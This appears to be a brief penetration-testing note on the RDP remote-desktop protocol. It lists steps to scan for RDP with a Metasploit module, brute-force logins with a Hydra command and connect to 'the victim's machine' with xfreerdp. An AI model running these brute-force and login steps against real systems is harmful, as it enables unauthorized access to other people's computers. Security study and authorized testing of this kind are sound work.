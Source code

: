 # RDP Remote Desktop Protoco

1. Defualt Port 3389
2. Protocol used for remotely accessing the computers

## How To Exploit

1. Check for running services on the target and confirm if RDP is running on any open port
2. use metasploit to confirm the services running is RDP

       use auxiliary/scanner/rdp/rdp_scanner
   
3. use Hydra to brute force the login credentials

       hydra -L user.txt -P password.txt rdp://IP -s PORT

4. use and RDP tools to login into the victim's machine in linux

       xfreerdp
